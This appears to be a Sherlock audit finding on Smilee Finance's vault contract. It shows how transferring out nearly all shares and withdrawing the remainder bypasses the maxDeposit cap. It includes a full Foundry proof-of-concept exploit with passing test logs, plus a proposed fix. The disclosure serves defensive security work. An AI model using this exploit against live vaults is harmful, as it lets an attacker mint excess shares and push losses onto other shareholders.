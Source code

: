Shiny Boysenberry Hyena

high

# Bypass vault's ````maxDeposit```` limit to mint extra share tokens and potentially gain huge risk free profit

## Summary
The vault has a ````maxDeposit```` design to control the overall risk which the protocol team is willing to suffer. This is useful especially at early stage of the protocol. e.g. the protocol team can buy $1M insurance from Sherlock and set ````maxDeposit = 1M````, in the case users would get enough paying back even vault's fund was drained due to undiscovered bug.

Meanwhile, if vault's max deposit reaches, it means that the market demand is greater than supply, but those extra demand can't be fulfilled by directly depositing fund to vault, users can only buy share tokens from existing holders with a bit higher price than the vault exchange rate. And vault share's market price would never be less than redeemable ````baseToken```` per share, as share holders can always withdraw at the bottom exchange rate from vault.

But the ````maxDeposit```` limit can be bypassed due to incorrect accounting for ````_state.liquidity.totalDeposit````, which causes attack available to mint and sell extra share tokens to gain huge potential risk free profit.

## Vulnerability Detail
The issue arises on L507 of ````_initiateWithdraw()````, the current algorithm can be bypassed by transferring out nearly all shares and withdrawing the remaining. e.g. if ````userDeposits == userShares == 100````, then transfer out 99 share token and withdraw the remaining 1 share token. As a result, the burned share token is only 1, but the decreased  ````totalDeposit```` is 100.
```solidity
File: src\Vault.sol
455:     function _initiateWithdraw(uint256 shares, bool isMax) internal {
...
507:         uint256 withdrawDepositEquivalent = (userDeposits * shares) / userShares;
508: 
509:         _state.liquidity.totalDeposit -= withdrawDepositEquivalent;
...
518:     }

```


The following coded PoC shows the full details how the attack works and gains potential risk free profit:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.15;

import "./VaultState.t.sol";
import {Vm} from "forge-std/Vm.sol";
import "forge-std/console2.sol";

interface IERC20 {
    function decimals() external view returns(uint8);
    function balanceOf(address) external view returns(uint256);
    function mint(address, uint256) external;
    function transfer(address, uint256) external;
}

contract MimicVaultShareTokenMarket {
    Vault immutable _vault;
    uint8 immutable _decimals;
    IERC20 immutable _baseToken;
    constructor (Vault vault) {
        _vault = vault;
        _baseToken = IERC20(_vault.baseToken());
        _decimals = _baseToken.decimals();
    }

    function buy(uint256) external {
        // ...
    }

    function sell(uint256 share) external {
        _vault.transferFrom(msg.sender, address(this), share);
        uint256 amount = share * _price() / (10 ** _decimals);
        _baseToken.transfer(msg.sender, amount);
    }

    function _price() internal view returns(uint256) {
        // 1. vault share's market price would never be less than redeemable baseToken per share,
        //    as share holders can always withdraw at the bottom exchange rate from vault
        // 2. while vault's max deposit reaches, it means that the current market demand is greater
        //    than supply, but those extra demand can't be fulfilled by directly depositing 
        //    fund to vault, they must buy share tokens from existing holders with a bit higher
        //    price than the vault exchange rate
        uint256 notional = _vault.notional();
        uint256 totalShares = _vault.totalSupply();
        // let's say 10% higher
        return (notional * (10 ** _decimals)) * 110 / (totalShares * 100);
    }
}

contract VaultMaxDepositBugTest is VaultStateTest {
    uint256 constant MAX_DEPOSIT = 1_000_000e18;
    MimicVaultShareTokenMarket _market;
    address constant bob2 = address(0x32);
    function testVaultMaxDepositBug() public {
        // 1. set the max deposit
        vm.prank(admin);
        vault.setMaxDeposit(MAX_DEPOSIT);

        // 2. max deposit reaches
        VaultUtils.addVaultDeposit(alice, 900_000e18, admin, address(vault), vm);
        (, , , uint256 cumulativeAmount) = vault.depositReceipts(alice);
        assertEq(VaultUtils.vaultState(vault).liquidity.totalDeposit, 900_000e18);
        assertEq(cumulativeAmount, 900_000e18);

        VaultUtils.addVaultDeposit(bob, 100_000e18, admin, address(vault), vm);
        (, , , cumulativeAmount) = vault.depositReceipts(bob);
        assertEq(VaultUtils.vaultState(vault).liquidity.totalDeposit, MAX_DEPOSIT);
        assertEq(cumulativeAmount, 100_000e18);

        // 3. roll to next Epoch
        Utils.skipDay(true, vm);
        vm.prank(admin);
        vault.rollEpoch();

        //  4. transfer out nearly all shares and withdraw the remaining
        vm.startPrank(bob);
        vault.redeem(100_000e18);
        vault.transfer(bob2, 99_999e18);
        assertEq(vault.balanceOf(bob), 1e18);
        vault.initiateWithdraw(1e18);
        vm.stopPrank();

        Utils.skipDay(true, vm);
        vm.prank(admin);
        vault.rollEpoch();

        vm.prank(bob);
        vault.completeWithdraw();

        // 5. now, available to deposit more
        VaultUtils.addVaultDeposit(bob, 100_000e18, admin, address(vault), vm);
        assertEq(VaultUtils.vaultState(vault).liquidity.totalDeposit, MAX_DEPOSIT);
        Utils.skipDay(true, vm);
        vm.prank(admin);
        vault.rollEpoch();
        vm.prank(bob);
        vault.redeem(100_000e18);
        assertEq(vault.totalSupply(), MAX_DEPOSIT + 99_999e18);
        assertEq(vault.notional(), MAX_DEPOSIT + 99_999e18);

        // 6. create the mimic market, it could be CEX or DEX such as Uniswap pool
        _market = new MimicVaultShareTokenMarket(vault);
        vm.startPrank(admin);
        baseToken.mint(address(_market), 1e24);
        baseToken.setTransferRestriction(false); // in the mainnet USDC has no transfer limit
        vm.stopPrank();

        // 7. bob2 sells extra share tokens to market to gain risk free profit
        uint256 balanceBefore = IERC20(vault.baseToken()).balanceOf(bob2);
        vm.prank(bob2);
        vault.approve(address(_market), 99_999e18);
        vm.prank(bob2);
        _market.sell(99_999e18);
        uint256 balanceAfter = IERC20(vault.baseToken()).balanceOf(bob2);
        uint256 profit = balanceAfter - balanceBefore - 99_999e18;
        assertEq(profit, 99_999e17);
    }
}
```

And the logs:
```solidity
2024-02-smilee-finance\smilee-v2-contracts> forge test --match-test testVaultMaxDepositBug -vv
[⠰] Compiling...
[⠒] Compiling 1 files with 0.8.21Compiler run successful!
[⠑] Compiling 1 files with 0.8.21
[⠘] Solc 0.8.21 finished in 16.25s

Running 1 test for test/VaultMaxDepositBug.t.sol:VaultMaxDepositBugTest
[PASS] testVaultMaxDepositBug() (gas: 1957381)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 13.52ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```


## Impact
1) the protocol team suffers more risk than they feel comfortable
2) the attack would cause share token's market price decreases until the bottom exchange rate, all other share holders suffer financial losses

## Code Snippet
https://github.com/sherlock-audit/2024-02-smilee-finance/blob/main/smilee-v2-contracts/src/Vault.sol#L507
## Tool used

Manual Review

## Recommendation
```diff
diff --git a/smilee-v2-contracts/src/Vault.sol b/smilee-v2-contracts/src/Vault.sol
index 76bf0fb..1922bd1 100644
--- a/smilee-v2-contracts/src/Vault.sol
+++ b/smilee-v2-contracts/src/Vault.sol
@@ -506,7 +506,10 @@ contract Vault is IVault, ERC20, EpochControls, AccessControl, Pausable {

         uint256 withdrawDepositEquivalent = (userDeposits * shares) / userShares;

-        _state.liquidity.totalDeposit -= withdrawDepositEquivalent;
+        uint256 withdrawalShares = _state.withdrawals.newHeldShares;
+        uint256 adjustedTotalDeposit = _state.liquidity.totalDeposit - state.liquidity.pendingDeposits;
+        uint256 depositToRemove = adjustedTotalDeposit * shares / (totalSupply() - withdrawalShares);
+        _state.liquidity.totalDeposit -= depositToRemove;
         depositReceipt.cumulativeAmount -= withdrawDepositEquivalent;
         // -----------------------------
```
